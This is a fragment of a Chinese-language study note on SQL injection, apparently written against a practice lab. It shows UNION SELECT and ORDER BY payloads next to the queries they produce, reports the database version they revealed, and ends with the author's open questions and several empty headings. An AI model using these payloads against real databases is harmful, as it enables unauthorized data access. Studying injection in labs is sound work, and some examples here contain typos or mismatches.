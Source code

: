 

---

### union select:

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxow6m9eaj30lc0ty0w2.jpg)

```
input = 1' union select 1,2,version()  -- '
$sql = 'select username,pwd from users where id = '1' union select 1,2,version()  -- '' limit 0,1'
```



```
input = ' union select 1,2,version()  -- '
$sql = 'select username,pwd from users where id = '1' union select 1,2,version()  -- '' limit 0,1'
```




知道Mysql版本号为5.6.35

```
input = 1' andorder by 1 --'
$sql = 'select username,pwd from users where id = '1' order by 1 --' ' limit 0,1'
```







## 白盒测试：




---

# 关键概念:


# 疑问：



## order by时候的疑问

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fhxow6m9eaj30lc0ty0w2.jpg)
为什么前一个显示出来数据，后一个没有显示出来数据

按道理说，注释符应该将后面的`LIMIT 1`注释掉才对。

## PHPstorm动态调试显示SQL语句：
